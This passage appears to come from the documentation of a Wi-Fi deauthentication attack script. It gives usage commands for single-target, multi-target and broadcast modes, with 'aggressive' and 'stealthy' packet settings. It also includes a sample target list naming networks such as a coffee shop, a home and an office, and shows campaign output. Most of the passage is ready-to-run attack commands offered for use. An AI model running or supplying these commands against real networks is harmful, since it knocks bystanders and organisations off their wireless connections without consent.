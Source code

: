 #### Mode 2: Single Target
```bash
./04-deauth-campaign.sh single <BSSID> [INTERFACE] [INTERVAL] [PACKETS]

# Examples:
# Basic - 20 packets every 10 seconds
./04-deauth-campaign.sh single AA:BB:CC:DD:EE:FF

# Aggressive - 50 packets every 5 seconds
./04-deauth-campaign.sh single AA:BB:CC:DD:EE:FF wlan0 5 50

# Stealthy - 10 packets every 30 seconds
./04-deauth-campaign.sh single AA:BB:CC:DD:EE:FF wlan0 30 10
```

#### Mode 3: Multi-Target
```bash
./04-deauth-campaign.sh multi <TARGET_FILE> [INTERFACE] [INTERVAL] [PACKETS]

# Example:
./04-deauth-campaign.sh multi /root/targets.txt wlan0 15 30
```

**Target File Format:**
```
# targets.txt (CSV format)
BSSID,CHANNEL,ESSID
AA:BB:CC:DD:EE:FF,6,CoffeeWiFi
11:22:33:44:55:66,11,HomeNetwork
AA:11:BB:22:CC:33,1,OfficeAP
```

#### Mode 4: Broadcast
```bash
./04-deauth-campaign.sh broadcast [INTERFACE] [INTERVAL] [PACKETS]

# Examples:
# Standard broadcast
./04-deauth-campaign.sh broadcast

# Aggressive broadcast - 100 packets every 5 seconds
./04-deauth-campaign.sh broadcast wlan0 5 100
```

**⚠️ WARNING:** Broadcast mode attacks ALL visible connections!

**Campaign Output:**
```
═══════════════════════════════════════════════════════════════
[Round 1] 10:45:23 - Sending 20 deauth packets...
  ✓ Deauth round completed (Total: 1)
  Waiting 10s before next round...

[Round 2] 10:45:43 - Sending 20 deauth packets...
  ✓ Deauth round completed (Total: 2)
  Waiting 10s before next round...
```
